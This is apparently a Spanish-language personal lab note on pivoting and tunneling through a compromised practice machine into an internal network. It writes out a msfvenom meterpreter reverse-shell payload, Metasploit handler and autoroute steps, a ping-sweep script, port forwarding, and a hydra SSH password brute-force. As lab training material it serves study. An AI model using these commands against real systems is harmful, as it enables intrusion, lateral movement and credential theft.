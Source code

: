 [[Lab Pivoting and Tunneling - Synfonos]]
#pivoting 
Usaremos la máquina friendly 1 intermedia y la máquina basic de vulnyx máquina final:
![[Pasted image 20240615202221.png]]

Procedemos con la intrusión en la máquina friendly 1 hasta ser usuario root:
![[Pasted image 20240615202227.png]]

Ahora vamos a recibir esta conexión como meterpreter en la máquina atacante, por lo que creamos un nuevo payload con msfvenom:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
```
Y nos lo compartimos con la máquina víctima:
![[Pasted image 20240615202239.png]]

![[Pasted image 20240615202243.png]]
Y usamos el multi/handler de metasploit cargando el payload de meterpreter:
```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```

![[Pasted image 20240615202254.png]]

![[Pasted image 20240615202302.png]]

Y recibimos el meterpreter:
![[Pasted image 20240615202316.png]]

Vemos las interfaces de red con el comando ipconfig, donde identificamos la segunda interfaz de red:
![[Pasted image 20240615202322.png]]

Enrutamos el tráfico con el módulo de autoroute:
```bash
use /multi/manage/autoroute
```

![[Pasted image 20240615202330.png]]
Y ahora tenemos que encontrar equipos levantados dentro de esta red interna de 10.10.10.0/24, por lo que usamos el siguiente script:
```bash
#!/bin/bash

for i in {1..255}; do
    timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
    if [ $? -eq 0 ]; then
        echo "El host 10.10.10.$i está activo"
    fi
done
```
Lo compartimos:
![[Pasted image 20240615202340.png]]

Lo recibimos:
![[Pasted image 20240615202346.png]]

Y encontramos el host objetivo:
![[Pasted image 20240615202353.png]]

Ahora tenemos que hacerle un escaneo de puertos a esta dirección IP, por lo que usamos el módulo de portscan/tcp:
![[Pasted image 20240615202402.png]]

Y con los siguientes comandos realizamos el port forwarding, de tal forma que nos vamos a traer tanto el puerto 22 como el puerto 631:
```bash
portfwd add -l 222 -p 22 -r 10.10.10.8
portfwd add -l 631 -p 631 -r 10.10.10.8
```

![[Pasted image 20240615202410.png]]

Y aquí vemos el contenido de lo que corre por el puerto 631:
![[Pasted image 20240615202416.png]]

Detectamos el usuario:
![[Pasted image 20240615202422.png]]

Por lo que atacamos al puerto ssh que también nos hemos traído en el puerto 222 de mi máquina local:
```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -s 222
```

